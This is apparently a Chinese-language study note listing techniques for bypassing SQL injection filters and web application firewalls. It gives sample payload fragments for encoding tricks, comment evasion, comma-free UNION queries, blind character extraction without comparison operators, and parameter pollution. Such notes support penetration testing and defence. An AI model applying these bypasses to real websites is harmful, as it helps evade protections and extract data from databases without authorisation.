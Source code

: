   2.判断出存在注入后，需要确定**注入类型**，再继续进一步的操作。

## SQL注入绕过技巧(!!)
- 编码绕过
  - 大小写
  - url编码
  - html编码
  - 十六进制编码
  - unicode编码
- 注释
  - // — — + — - # /**/ ;%00
  - 内联注释用的更多，它有一个特性 /!**/ 只有MySQL能识别
  - e.g. index.php?id=-1 /!UNION/ /!SELECT/ 1,2,3
- 只过滤了一次时
  - union => ununionion
- 相同功能替换
  - **截取字符串**
    - select mid(string,1,1)
    - select substr(string from 1 for 1)
    - select replace(LPAD(string,1,1),LPAD(string,1-1,1),"")  # 读取string的第一位
    - select replace(LPAD(string,2,1),LPAD(string,2-1,1),"")  # 读取string的第二位
    > LPAD(str,len,padstr) 返回字符串str，用padstr左填充至len字符长度
    ![](images/mysql_LPAD.png)
  - **逗号过滤**
    - case when then else 代替if
    - union select 1,2,3-->union select * from (select 1)a join (select 2)b join (select 3)c
    - limit 2,1 -->limit 1 offset 2
  - **比较表达式过滤(=<>)**
    - 利用**strcmp**  `if(abs(strcmp((ascii(mid(user()from(1)for(2)))),114))-1,1,0)`
    - 利用**find_in_set**  `select find_in_set(ord(mid(user() from 1 for 1)),114)`
    - 利用**regexp**  `select ord('r') regexp 115`;
    - `least(ord('r'),115)`  返回N个数中最小的
    - `greatest(ord('r'),113)`  返回N个数中最大的
    - `expr between n and m`  当expr值大于n小于m时返回1，否则返回0
  - **函数替换**
    - substring / mid / sub
    - ascii / hex / bin
    - benchmark / sleep
  - **变量替换**
    - user() / @@user
  - **符号和关键字**
    - and / &
    - or / |
- HTTP参数
  - HTTP参数污染
    - id=1&id=2&id=3 根据容器不同会有不同的结果
  - HTTP分割注入
- 缓冲区溢出
  - 一些C语言的WAF处理的字符串长度有限，超出某个长度后的payload可能不会被处理
- 二次注入有长度限制时，通过多句执行的方法改掉数据库该字段的长度绕过
